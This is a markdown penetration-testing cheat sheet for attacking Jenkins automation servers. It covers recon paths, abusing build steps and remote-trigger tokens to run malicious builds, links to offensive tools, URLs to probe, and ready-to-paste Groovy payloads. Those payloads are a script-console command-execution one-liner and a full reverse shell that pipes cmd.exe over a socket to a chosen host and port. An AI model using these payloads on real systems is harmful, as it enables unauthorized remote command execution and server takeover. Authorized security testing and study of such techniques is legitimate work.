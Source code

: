 # What is Jenkins

* Jenkins is an open source automation server for CICD pipeline
* It is written in Java
* some reading stuff https://www.toolsqa.com/jenkins/jenkins-user-management/

# Recon

* Version number is at the footer
* People > Username > Configure > API tokens 
* visit /manage page

# Triggering Malicious builds

## Entry Point

* create job 
* Build > execute Windows batch command / execute shell


## Trigger

* Using schedule
* using API token
Select `Trigger builds remotely (e.g., from scripts)`

Generate token `user -> configure -> Add new toke name to configuration`

`http://[username]:[user_password]@[host]/job/[job name]/build?token=[token name]`


# Exploitation

## Things to look for


### Tools
 https://github.com/gquere/pwn_jenkins
 https://github.com/Accenture/jenkins-attack-framework

### URL's to check
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

### Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";

### Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

